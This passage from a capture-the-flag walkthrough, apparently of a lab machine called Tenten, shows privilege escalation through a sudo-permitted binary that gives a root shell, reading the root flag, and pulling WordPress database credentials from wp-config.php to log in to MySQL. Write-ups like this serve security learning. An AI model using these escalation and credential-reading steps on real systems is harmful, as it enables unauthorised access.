 ### Shell

So when run with `sudo`, it runs as root:

```

takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)

```

So `sudo fuckin bash` gives a root shell:

```

takis@tenten:~$ sudo fuckin bash
root@tenten:~#

```

And I can grab `root.txt`:

```

root@tenten:/root# cat root.txt
f9f7291e************************

```

## Beyond Root

I wanted to come back with a shell and database access to look at what was actually going on in the WP plugin vulnerability. First, I needed the creds, which are in the `wp-config.php` file in `/var/ww/html`:

```

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'SuperPassword111');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

I can connect with `mysql`:

```

takis@tenten:/var/www/html$ mysql -u wordpress -pSuperPassword111 wordpresss
...[snip]...
mysql>

```
